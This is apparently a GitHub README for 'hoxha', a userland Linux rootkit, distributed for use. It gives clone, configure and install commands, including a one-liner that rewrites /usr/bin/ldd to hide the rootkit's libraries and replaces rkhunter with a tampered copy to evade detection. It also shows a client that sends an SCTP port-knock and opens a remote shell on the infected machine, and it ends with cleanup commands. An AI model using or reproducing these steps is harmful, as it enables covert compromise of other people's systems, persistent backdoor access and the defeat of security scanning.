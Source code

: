 # hoxha
A userland rootkit for x86_64 Linux that was meant to be everything <a href="https://github.com/mephistolist/tito">Tito</a> was not. As Enver Hoxha was Tito's next door neighbor and completely opposed in ideology, there was no more a fitting name. Hoxha was also known for being very paranoid, so a lot more detection-evasion was used.   

<p align="center">
  <img src="https://upload.wikimedia.org/wikipedia/commons/f/fe/Enver_Hoxha_%28portret%29.jpg" width="50%" height="50%" />
</p>

You can download this like so:
```
git clone https://github.com/mephistolist/hoxha.git
```
You can run this to ensure all dependencies are found:
```
cd hoxha; chmod +x ./configure; ./configure
upx was found...
SCTP was found...
sstrip was found...
Configuration successful!
```
Initially this was built on Debian which has a python binary of 'python3'. If your distro uses 'python' or another name you can use something like this to complete the configuration:
```
sed -i 's/python3/python/g' persistance/libexec.c
```
Then you can build and install it like this:
```
make install clean && cd persistance && [ -f ./patchelf ] && chmod +x ./patchelf && make install clean && sed -i 's/try_trace \"$RTLD\" \"$file\" || result=1/try_trace \"$RTLD\" \"$file\" | grep -vE \"libc.so.4|libc.so.5\" || result=1/g' /usr/bin/ldd && [ -f $(which rkhunter) ]  && cp ./rkhunter $(which rkhunter) 2>/dev/null
```
You can use the client with the destionation ip address where this rootkit is installed:
```
# ./client 127.0.0.1
[+] SCTP knock sequence sent.
[*] Connecting to SCTP shell at 127.0.0.1:5000...
[+] Connected. Type commands (type 'exit' to quit):
sctp-shell>
```
As SCTP ports are hard to close, I would suggest running this to exit the shell:
```
killall -9 hoxha && service cron restart
```
This will ensure that only one port is left listening for future connections. 
